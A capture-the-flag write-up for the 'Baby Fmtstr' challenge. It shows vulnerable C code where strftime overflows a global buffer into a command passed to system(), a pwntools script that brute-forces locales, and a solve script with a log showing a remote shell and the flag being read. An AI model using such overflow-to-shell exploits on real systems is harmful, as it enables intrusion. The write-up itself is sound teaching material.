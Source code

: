 ### Baby Fmtstr (44 Solves, 335 Pts)
Baby Fmtstr takes the form of a simple exe. We can either set the `LC_TIME` value to some valid variable, or perform `print_time()` which prints out the time for us, except we get to input format specifiers. It uses `strftime()` on our format string, used to obtain various data involving the current time, and writes it into a global `output[32]` array. But wait! It writes up till `48` bytes in! Which means the remaining data would overflow into `command[32]`.

We also see `goodbye()`, called when we choose not to use either `print_time()` or `set_locale()`, which runs `system(command)`. If we could overflow `output[]` into `command[]`, we could perhaps figure a way to write `command[]` as `/bin/sh` for example, leading to `system("/bin/sh")` being called which would pop a shell.

```c
char output[0x20];
char command[0x20];

void goodbye(){
    puts("Adiós!");
    system(command); // change to /bin/sh
}

void print_time(){
    time_t now;
    struct tm *time_struct;
    char input[0x20];
    char buf[0x30];

    time(&now);
    time_struct = localtime(&now);

    printf("The time now is %d.\nEnter format specifier: ", now);
    fgets(input, 0x20, stdin);

    for(int i = 0; i < strlen(input)-1; i++){
        if(i % 2 == 0 && input[i] != '%'){ // every even i must be %
            puts("Only format specifiers allowed!");
            exit(0);
        }
    }

    strftime(buf, 0x30, input, time_struct); // std::size_t strftime( char* str, std::size_t count, const char* format, const std::tm* tp );
    // writes up to 48 bytes of data!
    // remove newline at the end
    buf[strlen(buf)-1] = '\0';

    memcpy(output, buf, strlen(buf)); // buf => 32 randoms + "/bin/sh\x00" would be ideal...
    printf("Formatted: %s\n", output);
}


void set_locale(){
    char input[0x20];
    printf("Enter new locale: ");
    fgets(input, 0x20, stdin);
    char *result = setlocale(LC_TIME, input);
    if(result == NULL){
        puts("Failed to set locale :(");
        puts("Run locale -a for a list of valid locales.");
    }else{
        puts("Locale changed successfully!");
    }
}
```

Looking at https://en.cppreference.com/w/cpp/chrono/c/strftime, we see a list of valid format strings that we can input. `strftime()` essentially reads these format strings and, if it reads `%Y` for example, outputs the year, `2024`. If it reads `%b`, it outputs the abbrieviated month, but interestingly, the output is 'locale dependent'.

The program implies using `locale -a` on our instance to list all valid locales, and with each locale we can test all locale dependent format strings till we find one that might help with getting `/bin/sh`.

Using a brute script such as,
```py
ss = """
...
tr_CY.utf8
tr_TR.utf8
uk_UA.utf8
uz_UZ.utf8
wa_BE.utf8
xh_ZA.utf8
yi_US.utf8
zh_CN.utf8
zh_HK.utf8
zh_SG.utf8
zh_TW.utf8
zu_ZA.utf8
"""

from pwn import *

context.log_level = "error"
for line in ss.split("\n"):
    if not line:
        continue
    for j in b"bBaApcxXrp":
        p = process('./fmtstr')
        p.sendlineafter(b'> ', b'2')
        p.sendlineafter(b'Enter new locale: ', line.encode())
        p.sendlineafter(b'> ', b'1')
        pload = b'%' + bytes([j])
        p.sendlineafter(b'Enter format specifier: ',pload)
        res = p.recvline().rstrip()
        if any([res.endswith(chr(i).encode()) for i in b'/binshcatflg*.tx']) or b'/' in res or b' ' in res:
            print(pload, line, res)
        p.close()
```

I found that `xh_ZA.utf8` has its month, or `%b` format, set to `Tsh\n`. This is great, as it allows us to write a payload ending with `sh\x00` (the binary itself overwrites `\n` with `\x00` NULL bytes)

And funny enough, this is sufficient! With some padding we can get `command[]` to contain `sh`, allowing us to pop a shell!

`solve.py`
```py
from pwn import *

r = remote('challs.nusgreyhats.org', 31234)
r.sendline(b'2')
r.sendline(b'xh_ZA.utf8')
r.sendline(b'1')
r.sendline(b'%V%b%b%b%x%x%b')
r.interactive()
```
```sh
[+] Opening connection to challs.nusgreyhats.org on port 31234: Done
[*] Switching to interactive mode
Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> Enter new locale: Locale changed successfully!

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> The time now is 1713716330.
Enter format specifier: Formatted: 16TshTshTsh21/04/202421/04/2024Tsh

Welcome to international time converter!
Menu:
1. Print time
2. Change language
3. Exit
> $ 3
Adiós!
$ ls
flag.txt
run
$ cat flag.txt
grey{17'5_b0f_71m3}$
[*] Interrupted
[*] Closed connection to challs.nusgreyhats.org port 31234
```